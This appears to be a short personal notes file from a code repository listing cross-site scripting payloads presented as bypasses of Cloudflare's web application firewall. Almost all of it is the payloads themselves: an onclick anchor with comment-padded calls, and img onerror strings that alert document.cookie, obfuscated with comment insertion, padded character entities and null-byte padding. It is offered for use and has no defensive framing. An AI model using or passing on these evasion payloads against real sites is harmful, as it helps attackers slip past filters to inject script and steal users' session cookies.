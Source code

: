 # NOTAS

XSS bypass Cloudflare WAF 🧱🔥😈
Payload:
```
<a href="#" onclick="var w = window.open/**/(/**/); w.document.write/**/('Hello, world!'/**/); w.document.close/**/(/**/); w.print/**/(/**/); alert/**/('B1P4$$'/**/);">Click me</a>
```

XSS Bypass Waf Cloudflare ;) Poc 
```txt
"/***/&gt;/***/<img onerror="alert(document.cookie)/***/" src="P"/> "/**/>/**/<img src=P onerror=alert&#0000000040document.cookie)/**/> "&gt;00%00%00<img onerror="alert(document.cookie)" src="P"/>00%00
```
